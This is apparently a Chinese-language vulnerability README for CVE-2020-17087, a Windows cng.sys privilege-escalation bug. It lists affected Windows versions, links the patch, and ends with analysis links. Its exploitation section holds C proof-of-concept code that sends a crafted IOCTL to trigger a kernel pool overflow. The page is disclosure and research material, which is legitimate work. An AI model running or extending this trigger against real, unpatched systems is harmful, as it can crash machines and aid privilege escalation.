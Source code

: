 ## CVE-2020-17087

#### 描述

Windows 内核密码驱动程序 cng.sys 中的特权提升漏洞，已作为 CVE-2020-15999（FreeType 2 库中的缓冲区溢出漏洞）的漏洞链的一部分被广泛利用。CVE-2020-17087 被用于逃脱 Google Chrome浏览器的沙箱，以提升被利用系统的特权，且目前该漏洞已被在野利用。 

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested |
| :------------------ | :--------------- | ------- | ------ | ------ |
| Windows Server 2019 |                  |         |        |        |
| Windows Server 2012 |                  | R2      |        |        |
| Windows Server 2012 |                  |         |        |        |
| Windows Server 2008 | X64              | R2      | SP1    |        |
| Windows Server 2008 | X86/X64          |         | SP2    |        |
| Windows RT 8.1      |                  |         |        |        |
| Windows 8.1         | X86/X64          |         |        |        |
| Windows 7           | X86/X64          |         | SP1    |        |
| Windows Server 2016 |                  |         |        |        |
| Windows 10          | X86/X64          | 1607    |        |        |
| Windows 10          |                  |         |        |        |
| Windows 10          | X86/X64/ARM64    | 20H2    |        |        |
| Windows 10          | X86/X64/ARM64    | 2004    |        |        |
| Windows 10          | X86/X64/ARM64    | 1903    |        |        |
| Windows 10          | X86/X64/ARM64    | 1909    |        |        |
| Windows 10          | X86/X64/ARM64    | 1809    |        |        |
| Windows 10          | X86/X64/ARM64    | 1803    |        |        |
| Windows Server      |                  | 20H2    |        |        |
| Windows Server      |                  | 2004    |        |        |
| Windows Server      |                  | 1903    |        |        |
| Windows Server      |                  | 1909    |        |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-17087
```

#### 利用方式

目前没有利用方式，只有一个概念代码

```
#pragma comment(lib, "ntdll")

#include <cstdio>
#include <windows.h>

int main() {
  HANDLE hCng = CreateFileA("\\\\.\\GLOBALROOT\\Device\\Cng",
    GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

if (hCng == NULL) {
  printf("[-] Failed to open \\Device\\Cng: %u\n", GetLastError());
  return 1;
}

printf("[+] \\Device\\Cng opened, handle: %p\n", hCng);

//
// DataBufferSize overflows when used for allocating memory in
// cng!CfgAdtpFormatPropertyBlock as (uint16)(DataBufferSize * 6).
//
// In this proof-of-concept, an allocation of (uint16)(0x2AAB * 6) = 2
// bytes is requested while 0x2AAB * 6 = 0x10002 bytes are written to it.
//
CONST DWORD DataBufferSize = 0x2AAB;
CONST DWORD IoctlSize = 4096 + DataBufferSize;
BYTE *IoctlData = (BYTE *)HeapAlloc(GetProcessHeap(), 0, IoctlSize);

RtlZeroMemory(IoctlData, IoctlSize);

*(DWORD*)    &IoctlData[0x00] = 0x1A2B3C4D;
*(DWORD*)    &IoctlData[0x04] = 0x10400;
*(DWORD*)    &IoctlData[0x08] = 1;
*(ULONGLONG*)&IoctlData[0x10] = 0x100;
*(DWORD*)    &IoctlData[0x18] = 3;
*(ULONGLONG*)&IoctlData[0x20] = 0x200;
*(ULONGLONG*)&IoctlData[0x28] = 0x300;
*(ULONGLONG*)&IoctlData[0x30] = 0x400;
*(DWORD*)    &IoctlData[0x38] = 0;
*(ULONGLONG*)&IoctlData[0x40] = 0x500;
*(ULONGLONG*)&IoctlData[0x48] = 0x600;
*(DWORD*)    &IoctlData[0x50] = DataBufferSize; // OVERFLOW
*(ULONGLONG*)&IoctlData[0x58] = 0x1000;
*(ULONGLONG*)&IoctlData[0x60] = 0;
RtlCopyMemory(&IoctlData[0x200], L"FUNCTION", 0x12);
RtlCopyMemory(&IoctlData[0x400], L"PROPERTY", 0x12);

ULONG_PTR OutputBuffer = 0;
DWORD BytesReturned;
BOOL Status = DeviceIoControl(
  hCng,
  0x390400,
  IoctlData,
  IoctlSize,
  &OutputBuffer,
  sizeof(OutputBuffer),
  &BytesReturned,
  NULL
);

printf("[+] Ioctl sent, Status: %d, OutputBuffer: %zx\n", Status, OutputBuffer);

HeapFree(GetProcessHeap(), 0, IoctlData);
CloseHandle(hCng);

return 0;
}
```

#### 分析文章
- https://blog.csdn.net/weixin_43815930/article/details/114123728
- https://www.anquanke.com/post/id/221964